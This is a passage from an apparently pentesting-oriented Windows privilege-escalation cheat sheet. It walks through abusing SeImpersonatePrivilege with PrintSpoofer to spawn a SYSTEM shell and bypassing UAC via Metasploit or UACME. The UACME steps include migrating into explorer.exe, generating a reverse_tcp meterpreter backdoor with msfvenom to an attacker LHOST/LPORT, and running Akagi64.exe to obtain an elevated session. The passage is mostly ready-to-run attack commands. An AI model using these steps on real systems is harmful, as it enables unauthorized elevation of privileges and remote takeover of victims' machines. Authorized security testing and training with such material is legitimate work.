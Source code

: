1. Verify privileges:

    ```powershell
    whoami /priv
    ```
    Look for:

    ```powershell
    Privilege Name                Description                    State
    ============================  =============================  ========
    SeImpersonatePrivilege        Impersonate a client after...  Enabled
    ```

2. Copy the executable of PrintSpoofer.exe from [PrintSpoofer repository](https://github.com/itm4n/PrintSpoofer).

3. Execute it:

    ```powershell
    .\PrintSpoofer64.exe -i -c cmd
    ```
    Troubleshooting: https://juggernaut-sec.com/seimpersonateprivilege/#Troubleshooting_PrintSpoofer_Errors
    Blog post: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges
    {{< /details >}}

   {{< hint style=notes >}}
   **Note**: There are other tools available to accomplish this, such as **Juicy Potato**, **Rogue Potato**, etc.
   {{< /hint >}}

---

## UAC Bypass

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

---